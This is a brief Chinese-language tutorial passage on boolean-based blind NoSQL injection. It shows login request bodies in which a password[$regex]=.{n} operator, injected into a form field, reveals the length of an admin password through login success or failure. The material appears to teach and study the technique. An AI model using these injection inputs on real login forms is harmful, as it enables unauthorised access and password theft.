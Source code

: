 
布尔盲注重点在于怎么逐个提取字符，如下所示，在已知一个用户名的情况下判断密码的长度：

```sql
username=admin&password[$regex]=.{4}    // 登录成功
username=admin&password[$regex]=.{5}    // 登录成功
username=admin&password[$regex]=.{6}    // 登录成功
username=admin&password[$regex]=.{7}    // 登录失败
......
```

![image-20230513185214800](picture/image-20230513185214800.png)


